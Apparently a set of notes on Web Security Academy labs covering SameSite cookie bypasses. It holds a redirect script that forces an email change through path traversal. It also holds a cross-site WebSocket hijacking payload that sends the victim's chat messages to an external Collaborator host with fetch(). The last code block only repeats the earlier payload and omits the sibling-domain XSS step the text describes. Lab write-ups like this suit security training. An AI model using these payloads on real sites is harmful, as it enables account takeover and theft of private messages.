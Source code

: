 
**exploit**

- to exploit this we need to verify that changing our email can be done with `GET` by sending the request to burp and changing it's request method
- now go to the exploit server and post this in the body

```
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

- test it on yourself before deploying to the victim

### SameSite Strict bypass via sibling domain

- live chat feature is on the site which means web sockets we can possibly attack
- in the exploit server we can use this poc for a possible cross site web sockets hijacking vulnerability

```
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

- when reviewing requests for resources like script and image files notice a `Access-Control-Allow-Origin` header exposing a sibling domain
- visit url to see another login
- inject an xss payload into reflected parameters like `username` in the login and observe it working
- change request method and validate that it does work
- now take the cross site web sockets hijacking vuln from above and recreate like so

```
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
